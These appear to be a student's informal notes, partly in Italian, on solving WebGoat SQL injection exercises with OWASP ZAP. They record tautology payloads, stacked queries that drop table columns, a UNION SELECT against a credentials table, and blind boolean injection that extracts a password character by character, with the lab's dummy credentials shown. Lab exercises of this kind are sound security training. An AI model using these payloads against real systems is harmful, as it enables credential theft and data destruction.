 java11 owasp zap wegoat 8

> ./zap.sh
> java -jar NAMEJAR --server.port=8081

access from localhost:80801/webgoat/attack
123456 password

# intermediate
### ex3 
"""
 ' or '1'='1
"""

"""
SELECT * FROM user_data WHERE last_name = 'PLACEHOLDER'
SELECT * FROM user_data WHERE last_name = ' @' or '1'=1@ '
"""
it enables me to see all the user_data TABLE

The password column in the other table is restricted.

So I try to make an UNION between the to tables.
In order to make the union I have to have the same number of column. 
So I remove some column from the user_data table.

"""
'; ALTER TABLE user_data DROP COLUMN login_count --
'; ALTER TABLE user_data DROP COLUMN first_name --
'; ALTER TABLE user_data DROP COLUMN cc_number --
"""

at this point I'm able to UNION the to tabwles
"""
' UNION SELECT * FROM user_system_data -- 
"""

'; SELECT * FROM user_system_data; -- 
funziona


and I'm able to see user_id user_name and password from the user_system_data 
101, jsnow, passwd1, ,
102, jdoe, passwd2, ,
103, jplane, passwd3, ,
104, jeff, jeff, ,
105, dave, passW0rD, ,


So dave's password is "passW0rD"


### ex5 
Tom

> register new user 'user'
GOOD

user' AND '1'='1
> register new user " user' AND '1'='1 "

usando owasp zap
user' AND substring(password,1,1)='t

username_reg=tom'+AND+substring(password%2C1%2C23)%3D'thisisasecretfortomonly&email_reg=user%40user.it&password_reg=user&confirm_password_reg=user
thisisasecretfortomonly
 
User user' AND substring(password,1,1)='u already exists please try to register with a different username.
This mean that the server looks if 'user' exist in the database, if true than it exists
By this info i alos know that this input form i suitable to sql injection

creo una nuova 

